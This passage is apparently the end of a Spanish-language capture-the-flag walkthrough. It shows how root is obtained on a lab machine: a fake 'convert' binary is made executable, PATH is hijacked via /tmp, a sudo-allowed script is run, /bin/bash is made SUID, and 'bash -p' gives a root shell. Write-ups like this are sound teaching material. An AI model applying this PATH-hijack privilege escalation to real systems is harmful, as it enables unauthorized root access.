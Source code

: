 Lo guardamos y establecemos permisos de ejecuccion.

```shell
chmod +x convert
```

Ahora vamos a `exportar` la variable para que funcione esto:

```shell
export PATH=/tmp:$PATH
```

Echo esto, vamos a ejecutar el binario que podemos ejecutar como el usuario `root`.

```shell
sudo /usr/local/bin/runme
```

Info:

```
Converting image...
Permisos establecidos de forma correcta...
Done.
```

Y veremos que ha funcionado, vamos a listar la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que se establecio de forma correcta, por lo que haremos lo siguiente para ser el usuario `root`.

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Con esto ya seremos `root` por lo que habremos terminado la maquina.
